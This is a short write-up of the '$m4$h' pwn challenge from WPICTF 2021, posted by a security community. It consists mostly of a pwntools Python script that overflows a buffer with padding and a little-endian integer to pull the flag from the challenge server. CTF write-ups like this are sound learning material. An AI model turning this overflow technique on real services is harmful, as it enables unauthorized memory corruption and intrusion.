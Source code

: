 ```yaml
---
layout: load_md
title: The White Circle | Wpictf 2021 | $m4$h Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Wpictf 2021
parent: wpictf_2021
category: pwn
challenge: $m4$h
tags: "pwn, twh"
date: 2021-04-26T00:00:00+00:00
last_modified_at: 2021-04-26T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Wpictf 2021</h1>

## $m4$h

> Solved by : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'smash184384.wpictf.xyz'
port = 15724

junk = 'A' * 11
num = 923992130

le_num = p32(num, endianness='little')
buffer = junk.encode() + le_num + '\n'.encode()

conn = remote(host, port)
conn.send(buffer)
flag = conn.recvline().decode().split(': ')[1].strip()
print(f'\nFLAG : {flag}\n')
conn.close()
```